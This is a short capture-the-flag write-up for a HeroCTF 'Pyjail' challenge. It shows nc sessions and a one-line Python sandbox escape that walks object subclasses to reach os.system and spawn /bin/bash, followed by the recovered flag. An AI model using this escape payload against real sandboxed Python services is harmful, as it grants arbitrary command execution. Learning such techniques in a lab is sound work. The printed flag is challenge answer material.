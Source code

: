 # Pyjail

![](2023-05-14-10-30-28.png)

Note: the `jail.py` source has been added to this folder but was not given prior to starting the challenge.

Simple Pyjail challenge.

Upon initially starting the challenge, it looks like more or less every builtin function has been removed.

We can check out what we have access to:

```
┌──(natem135㉿LAPTOP-9JJQBT3F)-[~]
└─$ nc dyn-02.heroctf.fr 14914
>> print(__builtins__)
{'print': <built-in function print>, 'globals': <built-in function globals>}
>> print(globals())
{'__builtins__': {'print': <built-in function print>, 'globals': <built-in function globals>}}
>>
```

Alright, we don't have access to much, although there appear to be no more arbitrary restrictions making this is a very generic pyjail challenge.

I can use a list `[]`, access the base object class, get its subclasses, find a reference to the os module, and access functions from within the system module using the following line:

`[].__class__.__base__.__subclasses__()[-4].__init__.__globals__['system']('/bin/bash')`

This allows me to get the flag:

```
┌──(natem135㉿LAPTOP-9JJQBT3F)-[~]
└─$ nc dyn-02.heroctf.fr 14914
>> [].__class__.__base__.__subclasses__()[-4].__init__.__globals__['system']('/bin/bash')
grep -r "Her"
pyjail.py:# FLAG : Hero{nooooo_y0u_3sc4p3d!!}
ls
entry.sh
pyjail.py
```

Flag: `Hero{nooooo_y0u_3sc4p3d!!}`
